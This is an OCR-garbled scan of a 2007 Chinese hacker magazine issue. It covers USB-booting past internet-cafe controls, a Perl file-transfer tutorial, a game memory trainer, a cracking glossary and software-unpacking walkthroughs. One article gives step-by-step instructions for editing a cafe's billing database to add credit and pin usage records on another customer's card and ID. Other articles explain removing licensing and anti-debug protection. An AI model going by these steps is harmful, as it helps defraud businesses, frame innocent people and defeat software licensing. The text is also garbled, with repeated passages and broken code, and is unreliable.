接下来介绍 U 盘 Linux live CD 的制作，Linux 版本是 SLAX 的精简中文版本 FanX 1.1（现在已经更新到 2.0 beta 了）。选择它是因为它大约 200M，刚好够装入 256M 的 U 盘，而且对我们刚接触 Linux 的新手来说，中文的操作界面可以免掉不少麻烦。可以到 www.fanx.org 下载，速度很快的说。同时下载 LIVECD 的定制工具 MySLAX Creator，网站中也有下载，我们的作业就是把系统烧录到 U 盘上的。

废话少说，将 MySLAX Creator 安装好，运行界面和使用过程如下图显示：
图 14，next 进入下一界面。
图 15，Source type 一为 ISO 镜像，然后选择刚刚下载好的 FanX-1.1.iso，然后点 mount 载入，此时出现另外的选项。
图 16，点击 USB Stick，程序便会准备为我们制作 U 盘 Linux LIVE CD。
图 17，点击 Create USB Stick，会提示格式化，确认后关闭格式化窗口，然后等待 3 分钟左右，我们的 Linux LIVE CD 就做好了。其实我们利用该程序，可以定制自己个性化的 LIVECD，添加自己喜欢的模块，但是我还是新手，一切默认就可以了。

SLAX 有很多启动参数，感兴趣的去网上搜索搜索，系统默认的登录名为 root，密码为 toor，启动 X 图形界面的命令是 startx。下面是截图。
图 18，启动界面。
图 19，运行界面，嘿嘿，还挺拽的。
图 20，网络显示正常。
图 21，中文显示和媒体播放正常。
需要注意的是，Linux 普通不支持 NTFS 格式的硬盘，在这些硬盘上操作可能会出现只读、没有权限等问题。

## 【图文】2007.10

盘引导系统，我们可以通过修改 BIOS，使电脑启动时进入我们自己的 U 盘系统，这样就算它能开机吧，机房等限制条件下的各种管理软件如万象、美萍、PUBWIN 等，而且在进入系统后，可以随意更改计算机的启动设置（直接删除管理客户端或者用木马等获得客户密码也都不奇怪），但要求是有盘系统）。


一般在系统开机自检，做内存测试和硬盘光驱检测时，屏幕下方会出现一行功能提示：按 Del 可以进入 BIOS 设置（SETUP），按 F8 可以进入启动菜单（Boot Menu），当然主板不同，这里也可能不一样，但是根据提示还是能看懂的。我们的目的就是将 U 盘引导，一般情况下是进入 BIOS，选择 Advanced BIOS Features 可以设置启动优先顺序，老一点儿的主板会将 U 盘识别为 USB-ZIP，我们选择优先从 USB-ZIP 启动；而较新的主板则识别为 USB-HDD；USB 硬盘，我们选择优先从硬盘启动，然后设置 Hard Disk Boot Priority（硬盘启动优先级），将 USB 设为第一。


（硬盘启动优先级），将 USB 设为第一（某小菜：好像命运啊，真成一种“对道有有简单的方法吗？”更简单的办法当然有！直接根据提示进入 Boot Menu（左边图了 BIOS 菜单条件下，只要开了启动菜单可以进入 Boot Menu），一般有几个选项，如图 21。

- Removable Devices
- Hard Drive
- CD-ROM
- Network boot
- 有的有 USB-ZIP


前面有加号的说明还有子选项，在 Boot Menu 里，有 USB-ZIP 的直接选择从 USB-ZIP 启动，没有 USB-ZIP 的则打开 Hard Drive，选择里面的 USB 设备。（某小菜又开始问：我的怎么办啊？没有啊？怎么没有？看好是 USB-ZIP，Hard Drive 里面有 USB 设备呀！）若两项都没有，说明是由于系统还没识别出 U 盘，需要让系统重启两次进入 Windows，（WINXP 支持即插即用，但是好像也会有虚动，启动过程经常耗费很多时间；！）需要 Windows 已经启动，我们能看到可移动磁盘图标，我们插入我们的 U 盘，此时再重新启动就能看到我们自己的 USB 设备了。

最后，我再结合自己的经验给大家谈谈 U 盘系统的优点：Windows PE 本来就是保留 Windows XP 核心的简化版，我想每个人都很熟悉它的操作界面，本文介绍的 WINPE 版本本身已经有很多大家经常使用的程序，使用起来很方便，系统运行速度也很快，如果不玩大型游戏和大型软件，几乎可以完全代替大多数的 Windows XP 了。需要注意的是，使用 U 盘系统的网络功能时，一般需要自己填写 IP 地址、掩码、网关和 DNS 服务器地址，那些数据怎么来呢？拿网吧举例，网吧电脑一般开启了 DHCP 服务来自动获取 IP 地址，在系统启动时就会在屏幕下方显示出当前网卡的 IP 地址，如果是在线的 IP 地址。

PAUSE 键（键入主菜单）暂停记住它就行了，一般只要记住后三位数字就行了（比如光，便设置中的 IP 地址为：192.168.XXX.XXX），假设我看到的 IP 地址是 192.168.16.122，那么可以## 对“SA - 美名副网吧的‘软肋’”一文的补充

从本文中你可以学到：如何修改网吧网络上的卡通的数据来掩饰加钱痕迹

朋友们，你们当中有谁有过这样的经历：在网吧给自己加钱的时候被网管查个正着呢？我就有过两次，不过还不至于再发生第三次，因为我不会再给他们留下任何蛛丝马迹！首先我要纠正一个错误，一个严重的错误：万象的数据库是 ACCESS 的，而并非是 SQL 的……


图1 数据库表中的信息

首先用 dbeditor 打开数据库 JFWLDATA.mdb，会看到如图1所示。……

以下这种填写：

IP: 192.168.16.122  
掩码: 255.255.255.0  
网关: 192.168.16.1

DNS 服务器照理推荐大家先查好，我曾在的空间 hi.baidu.com/nanhang 上传了一篇包含各地 DNS 服务器地址的文章，大家只要找到自己区域的 DNS 地址下，填进去就行啦！

至于 U 盘版的 Linux，这次说的是一种较早的 Linux 版，它的稳定性一般，不过还算可以使用。……

后记：在完成稿的几天，我在整理这篇网吧没有相应的防御措施吗？……

1. 先用 Pdbeditor 打开数据库后，修改数据库中相应记录的网关和 IP 地址，使之与真实 IP 地址相匹配。
2. 上面忘记说无盘系统了，其实在无盘条件下，……
3. 部分网吧密码中有 BIOS 中可以设置引导顺序的话，……
4. 我们测试了两张 256M 的卡（一张 KINGMAX，一张 PQI）和一张 512M（KINGSTON）的卡，……
5. 碟上 U 盘 ISO 镜像下载地址：……

## 驻安安全黑客手册 2007.10 → [快码加编]

样的，至少在一个网吧里是这样的，指定字段处选择“CardNumber”，然后搜索后应答，如图2和图3。

“BeginTime”和“EndTime”分别代表上机时间和下机时间，大家可以看到我的上机记录，历历在目，每次上机都在 10 小时左右，最长达 16 小时，在一联网吧，实际呢，我一天给网管看的钱不过 20 块！如此充分的证据摆在这里，人家网管不查也就算了，一旦查起来，都是无懈可击！那要怎么改呢，其实很简单，只要卡号改下就好了。如图4那样，我把我的卡号改成别人的，这样就成了人家的上机记录了，哈哈。

最好把身份证号也一起改了哦！第二点是表“LMembers”，这里有很多重要的就是我们的余额了，双击表名“LMembers”，同样搜索关键字，输入卡号和选择“CardNumber”，然后点搜索，看到图5中的“CurMoney”了吗，这里就是余额了。

记得不要改太多，最好十几吧，少了会被怀疑的！最好要注意的一点是表“LSellInfo”，这儿比较重要，因为它存储的是充值记录吧，如图6。

看到没，像我这样半个月才冲一次，这不就冲得少了些，也弄得天衣无缝，一次就是一次的人，没被抓现成吧？最后要注意的是“CardNumber”这就改自己的卡号啊！不过别忘了同时把时间间隔改，如图7。

好了，就这些了，再要注意的就是每次修改之后都要按 CTRL+S 保存（看清楚了，是“每次修改”，也就是每修改一次就要保存一次，而不是等全改完了最后保存），还有就是一定要多加练习，要熟记获取网吧的数据库，最后我再重申一遍，我不是在教大家如何破坏别人，而是教大家如何学会保护自己！不过呢，换句话说，我们也是在帮他的忙啊，不信你去打开前两次我被逮的那两家网吧吧，现在人家的安全做的，那叫相当安全啊，连我师傅都没招了~

【文章中涉及到的二兵在杂志中有收录】


> 快码加编箴言

- Make it right before you make it faster.
- Keep it right when you make it faster.
- Make it clear before you make it faster.
- Do not sacrifice clarity for small gains in efficiency.

— Brian Kernighan

## 【快码加编】

# Perl 自助菜单剧

wolfSea 发表

# 从本文您可以学到：简单了解 Perl 及管道操作

在上一期里，我们讲了变量与控制流，相信大家对 Perl 编程也有了初步的了解。我们也完成了第一个小小黑板，虽然功能较为简单，但是和我们常见网页也有些明显的大型的功能。第一步的程序例子中留下了不少很特殊的窗口，一个个打开文件的帧边，这也就是今天要讲的重点：管道和文件操作。

管道在 Perl 网络编程中是一种中枢搭建后，一个靠当前脚本连接到另一个进程的标准输入或标准输出的文件句柄。简单点来说，就是一个实现程序间双向交流的通道。在信息越来越发达的今天，各

314

## 《快码初编》— 2007.10

类程序的信息交换程序要求也越来越高，而借助互联网，两个正在交换数据的程序可能相隔半个地球。所以，我们可以看到管道在 Perl 编程中的重要地位，现在就来找处一下基础的管道操作。

管道操作的语法很简单：open(文件句柄, 命令)。命令的前后加上反斜杠“|”分别代表输入管道和输出管道，例如：

```perl
open(CMD, "dir|") # 打开从系统命令 dir 中读取数据的管道
open(FILE, "|user.txt") # 打开向 user.txt 写入数据的管道
```

从上面的例子可以知道，管道能够实现对系统命令和文件操作。当上述参数为文件名时，管道指向文件；当上述参数为命令时，管道将命令执行过程。打开管道之后，我们一般用 print 和 <> 进行读写操作。

```perl
open(FILE, "<user.txt") # 打开用 user.txt 读取数据的管道
print FILE "ABC" # 向文件中写入 ABC
@text=<FILE> # 从文件读取到数组 @text 中
close FILE # 关闭管道
```

这就是一个简单的文件操作的例子，作为学会了 2.0 下面我们还要介绍 Perl 中的一种特殊的管道，用于引号（键盘上 Tab 键上方的按键字符）运算符，这种操作符用来代替 open() 简便地实现执行系统命令，如：

```perl
@return = `dir`
```

相当于

```perl
open(CMD, "dir|")
@return=<FILE>
```

是不是简单许多？学习 Perl 时必须得有一句话就是“There’s more than one way to do it.”。Perl 中提供了许多解决问题的方法，而我们要挑选最为简单的去做。现在还是进入下面的实例，这次我们要写的是一个文件间传输工具。

```perl
#!/usr/bin/perl
#Porters.pl
#by wolfSea(Wu Group)
use my_socket; # NET块
use strict;
# 加载IO::Socket; NET块，使用严格语法检查
if($ARGV<0){
  print "Porters.pl [-r] [save_filename]\n"; # 说明
  print "Porters.pl [-s] [remote_Add] [filename]\n";
  exit(1);
}
```

注：判断是否输入参数时，还是显示使用说明，定义成了子程序使用方法：接收端 Porters.pl [-r] [save_filename]；发送端 Porters.pl [-s] [remote_Add] [filename]

小提示：为什么判断 $#ARGV<0，即无参数输入？$#ARGV 为 @ARGV 检索，对应 @ARGV 的取下标数。而 @ARGV 中数组的元素是存放在括号中的参数。当无参数输入时，@ARGV 中第一个元素 $ARGV[0] 为空，所以 $#ARGV<0。

```perl
my $type=$ARGV[0];
my $sign1=$ARGV[1];
my $sign2=$ARGV[2];
# 把输入的参数收
```


这个实例用了一个 IO::Socket 来建立两个 Socket 连接，传送数据。IO::Socket 参数设置可以参考《黑客学》第 4 章第三节“命令行参数”第四章第十五章 Perl 文中。通过接口定义，使用的逻辑少文件，因为里面用了 my @out=<OUT>; 将整个文件数据写入数组。

```perl
if($type eq '-s'){
  # 发送端代码
  my $socket=IO::Socket::INET->new(
    LocalAddr => $sign1,
    LocalPort => 31010,
    Proto => 'tcp'
  );
  # 打开一个连接，连接远程接收端与本地端口31010，
  # 连接协议为tcp
  if($socket){
    # 当连接建立
    open(OUT,'<$sign2');
    # 打开指定文件
    binmode(OUT);
    # 以二进制形式读取文件
    my @out=<OUT>;
    print $socket @out;
    close($socket);
    # 与远程主机建立连接后，以二进制形式读取文件数据，向套接字发送数据
  }
}
```

```perl
if($type eq '-r'){
  # 接收端代码
  my $socket=IO::Socket::INET->new(
    LocalAddr => $sign1,
    LocalPort => 31010,
    Proto => 'tcp'
  );
  # 打开一个连接，连接远程发送端与本地端口31010，
  # 连接协议为tcp
  my $client = $socket->accept();
  # 等待远程连接
  if($client){
    # 当远程连接建立
    open(IN,'> $sign2');
    # 打开指定文件
    binmode(IN);
    # 以二进制形式写文件
    print IN @$client;
    close($server);
    # 数据写入文件，关闭
  }
}
```


## 接收端

## 发送端

## 无参数提示

# 黑客也来写外挂

从本文您可以学到：
1. 简单使用 Cheat Engine
2. 了解内存操作的过程

## 起因

高考终于结束了，可以一心搞技术了，这是我第一次给手写投稿。  
前两天心情不好，一个人在家里玩《红色警戒2共和国之辉》，回味几年前的游戏感觉。玩红警最怕的就是没钱啊，于是手就写了这个外挂，有了这篇文章。

## 分析

这里我写的是修改金钱的内存外挂，其实程序非常简单，基本流程就是：

一、定位保存金钱值的动态内存地址。  
二、修改动态地址上的金钱值。

所谓的动态内存地址，即动态内存地址 = 基地址 + 偏移量，动态地址一般都是从一个基地址作为基准，然后再加上偏移量得到的。其中某个游戏数值的内存偏移量的位置是固定不变的，变的是基址。只是通过这个基址地址，我们一般就能和修改游戏的动态内存地址；但基址却上来了基址为基址，则有了程序的动态变化，导致了搜索数据以及程序运行时的动态变化，这会出现动态内存地址的多次变化，例如，某个程序的动态变化是从一条到金钱的坐标向上变化变化，不论是你用修改金钱的外挂都是动态的，电脑地址仅是一个指针序列，因此只要能够找到基址，我们就能读取到别的地址内容，然后再根据基址再得出游戏中的内存地址，进行内存操作即可。实际上游戏只负责在程序外部，程序里该怎么修改它的动态内存地址，如何找到基址？我们通过 Cheat Engine 这款软件来进行说明。

首先开启红警，进入游戏，之后运行 Cheat Engine，打开进程 Game.exe，如图1所示。  
然后直接先搜金钱 10000，查找好后进入游戏，建造一个建筑物，金钱减少为 9400，回到 Cheat Engine 看到游戏地址的值变成了 9400，经过测试，一共有 3 个值变成了 9400，而只有改了第三个（06CCB3C4）才有用，如图2所示。  
修改完之后反击部阵地增加人力或者，右击“选择”，在中写入这个地址，如图3所示。  
然后再进入游戏，再建造一个建筑物，回到 Cheat Engine 点击 More information，如图4所示。  
这里的 ebx 就是基址（06CCB678），24c 就是偏移量，下面我们要找保存基地地址的内存地址。用 Cheat Engine 查找 06CCB678，如图5所示。  
根据经验，一个不是正确的（00A1EC04），由于字节问题，这里定位出的比较确定的地址，Cheat Engine 的具体使用方法请看网上教程。


```c
// 从进程名称得到的模块句柄
using namespace std;
GetProcessIdFromName(char *p)
{
    BOOL b;
    HANDLE hnd;
    PROCESSENTRY32 pe;
    hnd = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    pe.dwSize = sizeof(pe);
    b = Process32First(hnd, &pe);
    while (b) {
        if (strcmp(strupr(pe.szExeFile), strupr(p)) == 0) return pe.th32ProcessID;
        b = Process32Next(hnd, &pe);
    }
    return 0;
}

// 键盘钩子回调函数
LRESULT CALLBACK KeyHookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode < 0 || nCode == HC_NOREMOVE)
        return ::CallNextHookEx(g_hHook, nCode, wParam, lParam);
    if (lParam & 0x40000000)
        return ::CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

分步读取传送，但实际实现的代码会较为复杂，这里不输出。我们今天的重点还是在文件操作上，大家练习写一个小程序，读取两个文本文件内容，并写入一个新文件，体会一下 Perl 文件操作，参考程序同样附在文章附件中。

编辑点评：作者拿上一个主题，用简单的实例来与大家一起分享共学习 Perl 的过程。

## # [CRACKER] 2007.10

```c
char szKey[80];
GetKeyNameText(lParam, szKey, 80);
// 判断是否符合 F11
if (!strcmp(szKey,"F11"))
{
    // 得到游戏进程句柄
    DWORD dwid=GetProcessIdFromName("game.exe");
    if (dwid)
    {
        // 以此获取 10000s
        DWORD dwValue=100000;
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwid);
        DWORD Address;
        // 0x00A1E0C4 & Address_size 获取地址
        ReadProcessMemory(hProcess, (LPVOID)0x00A1E0C4, &Address, sizeof(DWORD), NULL);
        // 基址加上 0x24c 得到动态内存地址
        Address=Address+0x24C;
        // 改写动态内存中的值
        WriteProcessMemory(hProcess, (LPVOID)Address, &dwValue, sizeof(DWORD), NULL);
    }
}
return CallNextHookEx(g_hHook, nCode, wParam, lParam);
```

```c
// 调用钩子的函数：StartHook 没成功是啥原因
BOOL WINAPI StartHook()
{
    g_hHook = NULL;
    if (g_hHook)
    {
        MessageBox(NULL, "运行红色警戒2吧，按 F11 设置金钱！", "默认是...", MB_ICONINFORMATION);
        return TRUE;
    }
    return FALSE;
}
```

主体代码就这些，我还写了个窗口程序调用 StartHook，这里就不详细给出了，具体代码请参考光盘。（作者把我的命名改成了 2 外挂代码已经收录在光盘中）

编辑点评：内存修改的文章并不少见，本文用游戏外挂引出了内存操作，呼应又完全说明了简单内存修改技巧，好文也！

## # Cracker

## ## [最新新闻]

- 1. **PE_Detective**


- 2. **Immunity Debugger**


还是非常强大的，如果熟悉 OD 的朋友，也应该能对这个新的调试工具上手的，鉴于有些朋友可能不太习惯英文的版本，所以附带包含了汉化后的版本！

相关连接：http://www.immunityinc.com/products-immdbg.shtml

## ## [图书馆]

- 1. **看雪论坛 CrackMe 2007 专辑**


- 2. 本专辑收集了看雪论坛「CrackMe & ReverseMe」版块中 2004 年 4 月～2006 年 12 月 31 日期间所有的 CrackMe 和 ReverseMe，共 350 余个。

- 3. 有效减少文章由于没有提供附件 CrackMe，故仅收录。另，收录的 CrackMe 现已分类为可提交文章的收录类别，如有遗漏 CrackMe，欢迎反馈，将会在下一期专辑中推出。

## 常见破解术语

简单介绍

本文中只可学习到：常见破解术语

### 加密与解密

出于信息保密的目的，在信息传输或存储中，采用密码技术对需要保密的信息进行处理，使得处理后的信息不能被非授权者（合法读者）读取或解读，这一过程称为加密。在加密处理过程中，需要保密的信息称为“明文”，经加密处理后的内容称为“密文”，加密即是“明文”变为“密文”的过程。与此类似，将“密文”变为“明文”的过程称为解密。举个非常简单的例子，比如原文是123456，经过加密后，变成密文234567，中间加密的方法是每一位+1，这就是一个加密过程。而解密就是破解者得到了234567这一串密文后，将其-1，再得到原文，这个就是解密过程。这里是只简单说一下，真正的加密肯定不会这么简单啦！

### 破解

一般指与共享软件的破解，很多软件都是试用版或者共享版，你只能使用到其中的一部分功能或者有时间限制，要完全使用它就必须注册。破解的目的就是让你能完全地使用，而不必花钱去注册。

### 序列号（注册码）

序列号指的是，一组让软件以为你买的是原版软件的号码，而注册码也一样，可以让共享软件或试用版认为你已经付过钱，就可以不受限制地使用软件的所有功能。

### 乱码

乱码指的是计算机系统不能显示正确的字符，而显示其他无意义的字符或空白，如一堆 ASCII Code，最后显示出来的文字就会乱码。乱码是因为所使用的字符的编码在本地计算机上使用了错误的显示字符，或在本地计算机的字库中找不到相应于源码指代的字符所致。比如乱码为8989A符?=%5n eK?，这样的字符，看不懂吧？这就是乱码了！

### crackme

他们都是一些公开给别人尝试破解的小程序，制作 crackme 的人可能是程序员，想测试一下自己的软件保护技术，也可能是一位 cracker，想挑战一下其它 cracker 的破解实力；也可能是一些正在学习某项破解的人，练习自己。小小程序本身已经被 KeygenMe 是要求别人帮忙生成的 keygen（序号生成器）；ReverseMe 是要求别人把它的算法做出逆向分析；UnpackMe 是要求别人把它成功脱壳。这些目标不一样，一般破解论坛有很多，大家可以自己去找一下。

4．一些壳会被杀毒软件认为是捆绑或木马，因此当杀毒软件报某些程序带有病毒木马时也不必惊慌。

5．欢迎在保持论坛精华的完整下载该教学包。

相关链接：http://bbs.pediy.com/showthread.php?t=49586
下载链接：http://219.153.5.14/PEDiy_CrackMe_2007.rar
（电信）
http://bbs1.pediy.com/bbs/PEDiy_CrackMe_2007.rar（网通）

### overlay

overlay其实就是附加数据的意思，使用过易语言编译出来的程序吧？用 PEID 查一下就可以看见这个。

### 写手记

写手记就是将破解的过程或者手记整理成文，网上有很多破解文生成器，比如破解文章书写器 2.0、破解文章书写器 1.2、文章宝 1.0 网络版等等。

### 脚本

OllyDBG 的脚本插件常用的有 OllyScript 和 OllyMachine，其中 OllyScript 的使用最为常见。

### Dump

就是把程序运行在内存进程中的数据抓取后保存到磁盘上生成物理文件，比如使用 PETools、LordPE、fix 等工具的时候。

### IAT

PE 文件中的输入地址表。一般来说，在脱壳的时候都需要修复 IAT。

### PE文件

就是可执行文件，在 Windows 平台上我们常见的就是后缀为 .exe 或者 .dll 的文件，有一定的结构，要学脱壳就要掌握好 PE 文件结构。

### API函数

API 全称是 Application Programming Interface，是操作系统提供的功能接口，在破解的时候往往需要对 API 函数进行拦截（比如像 MessageBoxA 函数），从而达到我们想要进行的地方，建议找本 API 函数的电子文档进行阅读查询。

### 脱壳

如果程序外部加了一层保护壳的话，对于汉化等工作来说，一般要先脱壳才能够进行汉化工作的。

### 壳

对于破解来说，壳分压缩壳和加密壳两种，一般建议初学者先学脱压缩壳，有一定经验的时候再学加密壳。压缩壳有 Aspack、UPX 等，加密壳有 Asprotect、Acprotect 等。

### 算法分析

主要是分析程序的注册流程，从而获得程序注册的计算方式。比如注册码为22IEUDH，算法分析就是要分析这个22IEUDH究竟是怎么计算出来的。

### 爆破点

学习破解的必经阶段，将某处（比如 jz、jnz 或者 jz 等）经过修改之后，可以达到我们想去的地方。

### 断点

所谓断点就是程序被中断的地方。要调试，就要下断点，下来找到关键地方是必不可少的步骤。比如在 OD 中有普通断点、内存断点、硬件断点等。

### 汇编指令

机器语言过渡来，就是汇编语言，作为一名 cracker，你很有必要掌握好常见的汇编指令。

### 搜索

除了使用搜索引擎外，在常用的破解工具中，也有搜索这项，如 OD 中的搜索快捷键是 Ctrl+B。

### 加壳

加壳就是使用专门的加壳工具（比如 Aspack 等），对编译出来的程序进行保护的一种方式。

### 锁定

这是一个非常重要的概念，如果你被封墙的话，在程序锁定和系统锁定上打转，不要死盯着程序锁定，追问了解程序自己的地方，也就是要破解的程序自己程序所在的位置：而系统锁定一般都是由 DLL 文件，在 OD 中很容易可以分辨出来。

### 明码和非明码

明码是相对于非明码而言的，所谓明码就是能够使用 Winhex 等工具从内存中找出的注册码信息，而非明码就找不出来了，这时候只能靠爆破或者替程序的注册计算方法。

### NAG 窗口

Nag 的本义是烦人的意思。Nag 窗口主要用来提醒用户购买正版的一个信息提示窗口，它可能会在程序启动或退出时弹出来，或者在软件运行的某个时刻随机或定时地弹出来，弹出来时也能将其关闭。

### 时间限制

一般共享软件设置 30 天试用期，试用期过后就不能再使用。比如 Winrar，用过吧？它就是一个有时间限制的保护软件。

### Key File 文件

是一种利用文件来注册软件的保护方式，一般是一个小文件，可以是纯文本文件，也可以是包含有可显示字符的一些测试文本，其内常是一些加密或未加密的数据，其中可能有用户名、注册码等信息。一般比较常见的 Key File 文件有 key.dat、key.reg 等等。

### 功能限制

一般是 DEMO 版或菜单中部分选项是灰色，在有注册授权后才能获得该软件的所有功能。

### 光盘保护

程序在启动时判断光驱中的光盘上是否存在特定的文件，如果不存在则认为用户没有正版光盘，拒绝运行。比如近来很流行的仙剑4，也用了光盘保护。

### 错位码

一般是没在 OEP 处的入口代码被移到了别的地方去。这很容易理解，比如在程序的入口点，发现代码和正常的不同，那肯定是把代码偷走了。

### OEP

OEP 就是程序的真正入口处，在脱壳的时候，一般都会找 OEP。常见的 OEP 入口代码应该记住，它这个章节中的积累和收集。

### VM

VM 其实就是 Virtual Machine（虚拟机）的缩写，这里说的 VM 并不是像 VMWare 那样的虚拟机，而是将一系列的指令解释成 bytecode（字节码），放在一个解释引擎中执行。

### SEH 技术

结构化异常处理（Structured Exception Handling，SEH）是 Windows 操作系统处理错误或异常的技术。想要更多地接触 SEH 技术的话，可以看看 TElocK 0.98 这个壳！

### Nop

其实这是一个汇编指令，它表示无作用，相当于 90，当然是指令级的那个 nop，而不是第三字节不同的东西，这个命令的使用也比较广泛，比如在全软加密时可以添加很多的 nop 指令来达到特殊的效果，因为它是无作用的，所以无论多少步去，都不会改变程序原来的执行流程。

### 自校验

自校验是指软件本身在脱壳之后，运行脱壳后的程序，它可能会一闪而过，或者仍然不全。它会对程序自身进行身份验证，如果程序的大、名称等被修改的话，程序就会一闪而烁，所以在脱壳后还必须把自校验去掉才能使程序正常运行。

### Anti

Anti 就是反调试，就是不准你调试工具去调试它。调试工具是知道吗？比如 OD、W32dasm、PElord 等，属于 2007 年 8 月刊经过一天半及调试的文章，大家可以翻着看。

编辑点评：

一看很好的解术语的介绍文章，通过一些例子来理解这些词语，相信很多读者可能学会了破解软件的一些术语，也可以多多地从软件中吸收知识，做一次自己的一个琢积；如果你还是迷茫在各个加壳概念，那你多读这些文章，这类文章会给你加深一些理解，这或许就是脱壳子手段须有的要领。

# 破解前奏之手腕 Armadillo 单进程 + 远程地址 + 输入表乱序保护

从本文你可以学习到：

如何学习 Armadillo 单进程的远程地址和输入表乱序保护

大家好，这次继续和大家一起学习手腕界中的壳。在上一篇文章，主要演示了远程地址的处理问题，这一次继续介绍一个新的保护选项——Import Table Elimination，事实上就是输入表乱序！这一次的目标非常简单，列出几乎已经会的话可以跳过，如果还不会的话，那么，Let’s GO！

小知识：根据参考记载，Import Table Elimination 一般是把私人表放在执行中的内外分开，并且乱序处理。

- 【需要准备的工具】
- PED v0.94（用于检测 PE 文件是否加壳）
- OllyDBG v1.1（以下简称 OD，用于动态调试）
- LordPE v1.4（脱壳辅助工具）
- ImportREC v1.6 Final（脱壳辅助工具）
- Armadillo Find Protected（用于对 Armadillo 保护过的壳）
- Armadillo v0.96 Final Version（Armadillo 脱壳辅助工具）
- Brah（这个是非常重要的，没有它，你根本就不能实现以下）

（处理过程）

这次以上心思为了两个工具，以上工具如果买不到的话，可以在杂志等免费上手，找不出可以找到工具的方法！

## 脱壳过程

这是一句话，前期准备工作请参考前期的几篇文章，这里略过！这一次的目标是一个网络监测软件——LogMeister，一个可定制监控的工具的用途记录日志，并分离重要的通知工作，它可以很快取来不同的来源，包括文字文件的数据库、事件记录、ICQ 记录、RSS 监控和网站监控等。你们在具体的入口中加入多个过滤器，或者合并并在多个侧图像的数据库，使这时的每次都会保存好的文件，当然你们在时保存的资料都会被同化。

当你们不断出现 LogMeister 中监控输入的资料，并且对特定的触发器，以弹出式窗口进行记录、阅读每条日志的或本身的内容，甚至是寄理更多的时间，事实上能同时使用多个脉冲功能，共多次将系统进行侦测、日志和收集等，作为网络环境的监测、应用程序错误等，用于给用户的监测数据和良好的错误管理。


## 2007.10 → [CRACKER]

假设你已经完成了前期的准备工作，那么我们开始吧！首先就是用 OD 把目标程序载入，停在下面代码处：

```text
0059D000 > 60        pushad
0059D001 > E8 00000000  call LogMeis.0059D006
0059D006 > 5D        pop ebp
```


默认已经选好了“是”，所以用鼠标点一下“是”，脚本就会继续往下运行；再来一个注册框，按“否”，脚本会继续运行到 OEP 之后。这一阶段主要是测试程序是否能够正确跳转到 OEP。


按下“确定”之后，脚本就执行完毕了，也跑到 OEP 了，代码如下：

```text
004BD865  6A 60    push 60
This is the OEP!  
004BD867  60A1852000  push LogMeis.005218A0
004BD86C  E8 23CAFFF  call LogMeis.0054BA94
```

然后已经到了 OEP 处，不过此时还不太会使用 dump，目的是为了处理壳并导出原程序，接着继续进行修复。


提示没找到任何有用的信息，如图6。这时候，通常是 IAT 乱了，所以要把程序重新装载一次，再回到 ArmInline v0.96 左右，可以看到 Import Elimination 这里的地址不是固定的，因此我们需要重来一次。

OEP 在 kernel32.GetVersionExA 了，这时候观察数据窗口右下角，找到 IAT 所处的地址：00FD0008 7C831C45 kernel32.GetFileTime，继续往下找，发现 IAT 所在的表被重写了。


好了，三个补丁都已经修复好了，打开“Rebase IAT”，会一起成功，过程如图8。这时候，再 dump 一次会发现 IAT 能自动查找出来了，如图9。


【后记】

既然到这里结束了，虽然比较简陋，但是还希望读者朋友可以去试一下，因为只有融入其中，才能体会个中味道。对于脱壳，只有多多练习，才能有进步，还是希望能够继续总结和研究。

【本文介绍的目标程序、相关工具和配套录像已收录在本期光盘中】

编辑点评：

网上一直之后，作者继续分享文章，具有较强的实战性与可读性。通过对壳的识别、工具的引入、对 IAT 的修复等步骤，完整展示了脱壳处理的流程。

# 一个小小的 anti

从本文你可以学习到：如何去除反调试

这篇文章和大家一起分析一个带有小小的 anti 的 crackme，它说了就是反调试，让我们不能很好地分析代码。我在百度上搜出来一个，可能还有点代表意义吧，下面就开始分析。


这个程序没有加壳，刚开始还是用 OD 加载程序，接着按 F9 把程序运行起来，等待输入用户名和注册码，这样才好断点。可这次 F9 没起什么作用，OD 的左下角显示“堆栈溢出”，而当我们反汇编到程序时，按相关键都没反应，程序就会退出。这是因为我们的程序中加入一点点特殊，刚好里边在驱动层面出现了堆栈溢出，如图1。


由图1看到程序只是在00401508，经过几个跳转后到00401553处，这里调用了 SetUnhandledExceptionFilter 这个 API。大家都知道遇到什么异常，筛选器会进入回调函数进行处理，并恢复回到安全的地方。而调试器碰到那些致命的异常当然会报警了，我们紧接着看下图这 2 句代码：

单步观察就在这里，读写0地址处的内存显然是不允许的，看来得先 nop 掉这句。

在00401564处“右键——二进制——用 nop 填充”，然后“右键——复制到可执行文件——所有修改”，如图2。
在弹出的框中选“全部复制”，再点“右键——保存文件”就OK了。为了简单起见，保存的名字就不要和原始程序名字重复，我保存成了 crackme2.exe。

下面就重新开始加载 crackme2.exe，按 F9 后，程序还是没有运行，看来 anti 还不止一个，只好慢走一看，看到程序明显更改了。这里继续走进到00401562后，OD 在下方又显示了堆栈溢出，也就是说：

“00401502: CALL <JMP.&USER32.DialogBoxParamA>”
“00401504: MOV DWORD PTR DS:[EAX],1” // 在0地址处 mov 一个1进去


再跳转前就直接到这里，读写0地址处的内存显然是不允许的，看来得先 nop 掉这句。

在 00401564 处“右键——二进制——用 nop 填充”，然后“右键——复制到可执行文件——所有修改”，如图2。
在弹出的框中选“全部复制”，再点“右键——保存文件”就OK了。为了简单起见，保存的名字就不要和原始程序名字重复，我保存成了 crackme2.exe。


来看程序的文件名称处理过程中出错了，那么我们就继续往下分析。从 DialogBoxParamA 的倒数第二个参数可以知道这是地址大小是00401356，按 Ctrl+G 查找该地址，就会找到图3。
在消息初始化时，程序调用了 call 0040101e，比较可疑，右键点跟进去查看，看到如图4。
这个 CALL 的作用非常简单：
用 CreateToolhelp32Snapshot 得到进程快照，然后获得当前进程的父进程，再和 windows\Explorer.EXE、windows\System32\cmd.exe 比较，如果相等则程序崩溃掉，显然用 OD 加壳调试，显然用 OD 加壳调试，

# 【卫生安全·黑客手册】2007.10 →【误编辑互动】

教程类进程是 windows\Explorer.EXE，看请求线程的代码里只要调用这个 call 都要给 NOP 掉。首先把 00401385 处的 call 00401016 给 nop 掉，接着往下看，如图5。

